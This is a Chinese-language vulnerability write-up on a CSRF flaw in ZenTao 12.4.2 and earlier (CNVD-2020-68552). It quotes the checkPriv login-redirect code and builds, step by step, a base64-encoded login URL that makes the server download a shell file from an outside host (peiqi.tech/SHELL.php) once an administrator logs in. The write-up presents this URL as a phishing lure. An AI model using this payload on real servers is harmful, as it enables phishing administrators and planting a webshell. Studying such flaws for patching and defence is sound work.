


# 禅道 12.4.2 CSRF漏洞 CNVD-2020-68552

## 漏洞描述

可以针对禅道的部分模块制造恶意URL地址发送给管理员，当管理员登录时会执行模块的恶意请求,可用于进行钓鱼请求

## 漏洞影响

```
禅道 <= 12.4.2版本
```

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)


调用接口查询版本信息

```plain
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```


## 漏洞复现

这里利用 禅道 小于12.4.2 文件上传漏洞 CNVD-C-2020-121325(可参照上一篇文章) 来构造一个恶意的URL地址

查看**module/common/model.php**的**checkPriv**方法

```php
public function checkPriv()
{
    $module = $this->app->getModuleName();
    $method = $this->app->getMethodName();
    if($this->app->isFlow)
    {
        $module = $this->app->rawModule;
        $method = $this->app->rawMethod;
    }

    if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
    if($this->isOpenMethod($module, $method)) return true;
    if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
    if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

    if(isset($this->app->user))
    {
        if(!defined('IN_UPGRADE')) $this->session->user->view = $this->loadModel('user')->grantUserView();
        $this->app->user = $this->session->user;

        if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
    }
    else
    {
        $referer  = helper::safe64Encode($this->app->getURI(true));
        die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
    }
}
```

这里的代码片段为鉴权函数，可以看到最后一句代码

```php
$referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
```

所以当调用当前权限不允许的方法时，会进行跳转，并在**$referer**参数缓存调用的方法URL，当使用这个跳转的地址登录时则会直接调用此方法

**URL地址构造过程**

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=HTTP://peiqi.tech/SHELL.php
```

将**link参数**base64加密

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

将**referer参数**以 . 做分割base64加密两边字符

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=L3d3dy9pbmRleC5waHA.bT1jbGllbnQmZj1kb3dubG9hZCZ2ZXJzaW9uPTEmbGluaz1TRlJVVURvdkwzQmxhWEZwTG5SbFkyZ3ZVMGhGVEV3dWNHaHc=
```



将这个URL地址发送给管理员，当管理员登录时则会触发恶意文件下载

